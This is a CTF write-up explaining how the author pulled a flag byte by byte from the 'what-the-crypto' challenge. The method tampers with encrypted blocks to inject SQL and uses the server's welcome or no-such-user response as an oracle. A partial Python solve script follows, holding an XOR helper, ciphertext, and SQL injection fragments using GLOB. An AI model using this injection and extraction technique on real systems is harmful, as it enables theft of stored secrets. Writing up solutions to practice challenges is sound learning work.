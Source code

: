 By using the above strategy, we can exfiltrate the flag byte-by-byte. Our initial 6-gram contains 5 characters that we know are a prefix of the flag. Therefore, we only guess the last byte. If this byte is correct, the response from the server will welcome our new "username". We can use this response to know we have found the right byte from our query; otherwise, the response would tell us the "user" doesn't exist in the database (note: the query wouldn't error, it would just find no matches).

By guessing the right byte, we now have a new 5-byte prefix for our next 6-gram to guess. We simply take the last 5 bytes of the successful 6-gram we guess, and then add one more guess byte. By doing this, we can just guess one byte at a time in a sliding window fashion.

During the CTF, this solve was very finnicky though. I think there are a few reasons

- My network was really bad, causing some queries to fail and not find a character even if they should have, resulting to the default wildcard of '\*'
- Some modifications would result in null bytes inadvertently being placed in the plaintext query. Even if these bytes are commented out, they would cause an error with the database and could skip over correct bytes.
  - Simply trying a slightly different query helps fill in these holes (i.e. adding spaces, using LIKE instead of GLOB)
  - This probably caused the ticket(s) I sent you guys
- These problems were especially problematic when guessing some of the lowercase english characters of the flag at the front. I'm not sure why, but thankfully I could just guess these characters myself.

## Solve script(s)

Here is an example solve script with a known prefix of the flag. This can be used for any known prefix of the flag that is longer than `bctf{`, but it might miss some characters that you need to fill in (see previous section). This script uses GLOB, which is generally better than LIKE for this challenge for reasons described above.

```python
from string import Template
import string
import binascii
import requests
from tqdm import tqdm

# this is very jank im sorry
# computes xor of a,b but if their lengths differ, keep the trailing bytes of the longer string and do not modify them
def xor(a,b):
    if (len(a) > len(b)):
        return b''.join([(i ^ j).to_bytes(1,"little") for i,j in zip(a,b)]) + a[len(b):]
    else:
        return b''.join([(i ^ j).to_bytes(1,"little") for i,j in zip(a,b)]) + b[len(a):]

# link = 'https://what-the-crypto.harkonnen.b01lersc.tf/?username=8cee7ad0328c752fd62d3dc19a56c1aecd0707cafcc2225cd9b5af8b4d79bf9d18f9ac7950eceb607fa78e5909e0ff3e8eb2c93a1bc26b986cd0786b1b05f4b6fadb7634a75b359afc10b773a51bc42c6e6bc46dd0807a1636dfc1679090a553b80ae0946d6663f7e019c8a2eaa22eec8db6122c55478e58fc4aa4cdf46f4f09da096a5c444bf8413ad76d0ce859c4e4&password=bd0e2c124c410b54f4d27402982ac522d0a9e739f368c1ffb9f983080507bf92'
uname = '3cb0bfd89fc17bb62a595c1bda1c404528c2b928f4c0dd16e9895258ad46386aa45aafdce4bfd55068191bdc9d581622f6c6f67ed82e91d86d689dc3d25f419a98d5bc3dcbdfe30602d37fb1f1678ad42b2fc14fb3496f8d1f32c72c818ed4fc319261d249d20a5c542eb36c2c1309f8d9ca8e6dc48c129f2fedcbbd2aeeb11f6bee0ba07213eced42c80dd29d769bfc'
uname_blocks = [binascii.unhexlify(uname[i:i+32]) for i in range(0,len(uname),32)]

block = b'aaaaaaaaaaaaaaaa'
query_part1 = b"'OR /*"
query_part2 = b"*/auth_secret/*"
query_part3 = b'*/GLOB/*'

s = requests.Session()

```
